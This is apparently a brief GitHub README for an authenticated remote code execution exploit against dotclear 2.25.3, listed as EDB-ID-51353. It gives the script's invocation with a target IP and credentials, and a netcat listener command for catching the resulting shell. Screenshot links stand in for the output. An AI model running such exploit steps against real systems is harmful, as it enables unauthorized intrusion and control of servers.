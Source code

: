 # EDB-ID-51353
dotclear 2.25.3 - Remote Code Execution (RCE) (Authenticated)

Usages:

python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456

Steps: For getting Shell

nc -nvlp 1337

![image](https://user-images.githubusercontent.com/25599963/235438008-4f8d3a4d-1779-47be-838b-647f3969d713.png)

python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456

![image](https://user-images.githubusercontent.com/25599963/235438235-fd6057da-d1fd-44b7-9b4e-f083d5910782.png)


